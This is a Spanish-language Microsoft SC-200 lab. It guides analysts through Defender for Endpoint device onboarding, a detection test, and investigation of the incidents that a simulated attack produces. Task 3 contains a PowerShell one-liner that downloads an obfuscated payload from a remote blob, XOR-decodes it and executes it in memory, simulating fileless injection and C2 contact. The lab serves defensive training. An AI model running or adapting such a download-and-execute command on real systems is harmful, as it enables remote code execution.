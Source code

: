 ```yaml
---
lab:
  title: "Ejercicio 1: mitigación de ataques con Microsoft\_Defender para puntos de conexión"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Ruta de aprendizaje 2 - Laboratorio 1 - Ejercicio 2: mitigación de ataques con Microsoft Defender para puntos de conexión

## Escenario del laboratorio

![Introducción al laboratorio.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Usted es un analista de operaciones de seguridad que trabaja en una empresa que está implementando Microsoft Defender para punto de conexión. El administrador tiene previsto incorporar algunos dispositivos para dar información sobre los cambios necesarios en los procedimientos de respuesta del equipo de SecOps.

Para explorar las funcionalidades de mitigación de ataques de Defender para punto de conexión, comprobará la incorporación correcta de dispositivos e investigará alertas e incidentes creados durante ese proceso.

>**Nota:** Hay disponible una **[simulación de laboratorio interactiva](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** que le permite realizar sus propias selecciones a su entera discreción. Es posible que encuentre pequeñas diferencias entre la simulación interactiva y el laboratorio hospedado, pero las ideas y los conceptos básicos que se muestran son los mismos.

### Tarea 1: comprobar la incorporación de dispositivos

En esta tarea, confirmarás que el dispositivo se ha incorporado correctamente y crearás una alerta de prueba.

1. Si aún no está en el portal de Microsoft Defender XDR en el explorador Microsoft Edge, vaya a (https://security.microsoft.com) e inicie sesión como Administrador del inquilino.

1. En el menú de la izquierda, en el área **Recursos**, selecciona **Dispositivos**. Espere hasta que WIN1 aparezca en la página Dispositivos antes de continuar. De lo contrario, es posible que tengas que repetir esta tarea para ver las alertas que se generarán más adelante.

    >**Nota:** Si has completado el proceso de incorporación y no ves dispositivos en la lista Dispositivos después de una hora, podría indicar un problema de incorporación o conectividad.

1. Selecciona **Configuración** en la barra de menús de la izquierda. Después, en la página Configuración, selecciona **Puntos de conexión**.

1. Selecciona **Incorporación** en la sección Administración de dispositivos y asegúrate de que *"Windows 10 y 11"* esté seleccionado como sistema operativo. El mensaje *"Primer dispositivo incorporado"* ahora muestra *Completado*.

1. Desplázate hacia abajo y, en la sección *"2. Ejecutar una prueba de detección"*, copia el script de prueba de detección seleccionando el botón **Copiar**.  

1. En la barra de búsqueda de Windows de la máquina virtual WIN1, escribe **CMD** y elige **Ejecutar como administrador** en el panel derecho de la aplicación de símbolo del sistema.

1. Cuando se muestre la ventana "Control de cuentas de usuario", selecciona **Sí** para permitir que se ejecute la aplicación. 

1. Pega el script haciendo clic con el botón derecho en las ventanas **Administrador: símbolo del sistema** y presiona **Entrar** para ejecutarlo.

    >**Nota:** La ventana se cierra automáticamente después de ejecutar correctamente el script y después de unos minutos se generan alertas en el portal de Microsoft Defender XDR.

### Tarea 2: Investigar alertas e incidentes

En esta tarea, investigará las alertas e incidentes generados por el script de prueba de detección de incorporación en la tarea anterior.

1. En el portal de Microsoft Defender XDR, seleccione **incidentes y alertas** en la barra de menús de la izquierda y, a continuación, seleccione **Alertas**.

1. En el panel **Alertas**, seleccione la alerta denominada *Línea de comandos sospechosa de PowerShell* para cargar sus detalles.

1. Revise la escala de tiempo de la *Historia de la alerta* y, a continuación, revise las pestañas *Detalles* y *Recomendaciones*.

    >**Nota:** En la pestaña *Detalles* de la alerta puede desplazarse hasta la sección *Detalles del incidente* y seleccionar el enlace *Incidente de ejecución en un punto de conexión* para abrir el incidente.

1. En el portal de Microsoft Defender XDR, seleccione **incidentes y alertas** en la barra de menús de la izquierda y, a continuación, seleccione **Incidentes**

1. Un nuevo incidente denominado *Incidente de ejecución en un punto de conexión* está en el panel derecho. Selecciona el nombre del incidente para cargar sus detalles.

1. Seleccione el vínculo **Administrar incidentes** (con un icono de lápiz) y aparecerá una nueva hoja de ventana.

1. En **Etiquetas de incidente**, escriba "Simulación" y seleccione **Simulación (Crear nueva)** para crear una nueva etiqueta.

1. Selecciona el botón de alternancia **Asignar a** y agrega tu cuenta de usuario (Me) como propietario del incidente.

1. En **Clasificación**, expande el menú desplegable.

1. En **Información, actividad esperada**, selecciona **Pruebas de seguridad**.

1. Agrega los comentarios, si quieres, y selecciona **Guardar** para actualizar el incidente y finalizar.

1. Revisa el contenido de las pestañas *Ataque, Alertas, Activos, Investigaciones, Evidencia y Respuesta* y *Resumen*. Los dispositivos y los usuarios se encuentran en la pestaña *Recursos*. En un incidente real, la pestaña *Historia de ataque* muestra el *gráfico del incidente*. **Sugerencia:** Es posible que algunas pestañas estén ocultas debido al tamaño de la pantalla. Selecciona la pestaña de puntos suspensivos (...) para que aparezcan.

### Tarea 3: Simulación de un ataque

>**Advertencia:** Este ataque simulado es una excelente forma de aprendizaje mediante práctica. Cuando use el inquilino de Azure proporcionado en el curso, realice solo el ataque indicado en las instrucciones facilitadas para este laboratorio.  Podrá realizar otros ataques simulados *después* de que este curso de entrenamiento se complete con este inquilino.

En esta tarea, simulará un ataque en la máquina virtual WIN1 y comprobará que Microsoft Defender para punto de conexión detecta y mitiga el ataque.

1. En la máquina virtual WIN1, *haga clic con el botón derecho* en el botón **Inicio** y elija **Windows PowerShell (administrador)**.

1. Cuando se muestre la ventana "Control de cuentas de usuario", selecciona **Sí** para permitir que se ejecute la aplicación.

1. Copie y pegue el siguiente script de simulación en la ventana de PowerShell y presione **Entrar** para ejecutarlo:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Nota:** Si experimenta errores (en rojo) al ejecutar el script, puede abrir la aplicación Bloc de notas y copiar el script en un archivo en blanco. Asegúrese de que *Ajuste de línea* esté activado en el Bloc de notas. Copie y ejecute cada línea del script por separado en PowerShell.

1. El script generará varias líneas de salida y un mensaje que indica que *no se pudieron resolver los controladores de dominio en el dominio*. Al cabo de unos segundos, se abrirá la aplicación *Bloc de notas*. Aquí se insertará un código de ataque simulado. Mantenga abierta la instancia del Bloc de notas generada automáticamente para experimentar el escenario completo. El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando un servidor C2).

### Tarea 4: Investigación del ataque simulado como incidente aislado

1. En el portal de Microsoft Defender XDR, seleccione **incidentes y alertas** en la barra de menús de la izquierda y, a continuación, seleccione **Incidentes**

1. Un nuevo incidente llamado *incidente de varias fases que implica la evasión de la defensa y detección en un punto de conexión* aparece en el panel derecho. Selecciona el nombre del incidente para cargar sus detalles.

1. En la pestaña *Historia de ataque*, contraiga los paneles **Alertas** y **Detalles del incidente** para ver el **grafo de incidentes** completo.

1. Pase el mouse y seleccione los **nodos del grafo de incidentes** para revisar las *entidades*.

1. Vuelva a expandir el panel **Alertas** (lado izquierdo) y seleccione el icono **Reproducir historia de ataque** *Ejecutar*. Se muestra la alerta de escala de tiempo del ataque por alerta y se rellena dinámicamente el *grafo de incidentes*.

1. Revisa el contenido de las pestañas *Ataque, Alertas, Activos, Investigaciones, Evidencia y Respuesta* y *Resumen*. Los dispositivos y los usuarios se encuentran en la pestaña *Recursos*. **Sugerencia:** Es posible que algunas pestañas estén ocultas debido al tamaño de la pantalla. Selecciona la pestaña de puntos suspensivos (...) para que aparezcan.

1. En la pestaña **Evidencia y respuesta**, seleccione **Direcciones IP** y, luego, seleccione la *dirección IP* mostrada. En la ventana emergente, revise los detalles de la dirección IP y desplácese hacia abajo y seleccione el botón **Abrir página de dirección IP**.

1. Revise el contenido de las pestañas *Información general, Incidentes y alertas y Observado en las organizaciones* de la página *Dirección IP*. Es posible que algunas pestañas no contengan información de la dirección IP.

## Has completado el laboratorio
